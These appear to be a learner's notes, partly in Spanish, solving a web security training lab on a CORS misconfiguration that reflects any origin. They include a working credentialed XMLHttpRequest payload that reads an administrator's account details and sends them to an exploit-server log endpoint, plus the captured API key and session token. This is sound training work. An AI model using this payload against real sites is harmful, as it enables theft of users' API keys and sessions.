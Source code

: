 # Lab: CORS vulnerability with basic origin reflection

```jsx
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter
```

LA API DE NUESTRO USUARIO LA VEMOS

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image.png)

Debemos sacar de que request se obtiene esta api, para forzar a que nos de la API del admin

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image%201.png)

```jsx
<script>
	fetch('/accountDetails', {credentials:'include'})
	.then(r => r.json())
	.then(j => document.getElementById('apikey').innerText = j.apikey)
</script>
```

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image%202.png)

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image%203.png)

1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
2. Send the request to Burp Repeater, and resubmit it with the added header:`Origin: https://example.com`
3. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image%204.png)

```jsx
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

```jsx
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a0200ff04db1ddb8291e8bc00860057.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image%205.png)

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image%206.png)

```jsx
GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22mb3KgaQCchw5JDpEYCho1XPW7Orh3RbO%22,%20%20%22sessions%22:%20[%20%20%20%20%22CCiwxWIywzlbk6Pb2UWFn08CtnDI0Olu%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

```jsx
GET /log?key={  "username": "administrator",  "email": "",  "apikey": "mb3KgaQCchw5JDpEYCho1XPW7Orh3RbO",  "sessions": [    "CCiwxWIywzlbk6Pb2UWFn08CtnDI0Olu"  ]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image%207.png)

![image.png](Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflectio%2080085e7f406c44b6b7862c94f793cde0/image%208.png)
